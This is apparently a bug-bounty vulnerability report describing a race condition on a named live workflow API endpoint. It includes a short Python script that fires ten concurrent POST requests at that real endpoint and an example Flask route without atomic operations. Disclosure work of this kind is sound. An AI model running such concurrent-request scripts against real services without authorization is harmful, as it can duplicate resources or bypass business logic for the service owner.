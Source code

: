 # 📊 MEDIUM: Race Condition

## **📊 VULNERABILITY SUMMARY**
- **Severity**: Medium (CVSS 6.5)
- **Asset**: `https://app.aixblock.io/api/v1/workflows`
- **Vulnerability**: Race Condition (TOCTOU)
- **Impact**: Resource duplication, logic bypass
- **Reporter**: grich88
- **Date**: 2025-10-21

## **🔍 TECHNICAL DETAILS**

### **Root Cause**
The `/api/v1/workflows` endpoint processes concurrent requests without proper locking or atomic operations, leading to race conditions that can result in resource duplication or business logic bypass.

### **Attack Vector**
```python
# Concurrent request execution
import asyncio
import aiohttp

async def race_condition_test():
    """Test race condition with simultaneous requests"""
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(10):
            task = session.post(
                'https://app.aixblock.io/api/v1/workflows',
                json={'action': 'create', 'id': i}
            )
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)
        successful = sum(1 for r in responses if r.status == 200)
        print(f"Race condition: {successful}/10 successful responses")
```

### **Vulnerable Code Pattern**
```python
# Vulnerable endpoint without atomic operations
@app.route('/api/v1/workflows', methods=['POST'])
def create_workflow():
    workflow_data = request.json
    # Missing atomic operation - race condition possible
    workflow = create_workflow_in_db(workflow_data)
    return jsonify(workflow)
```
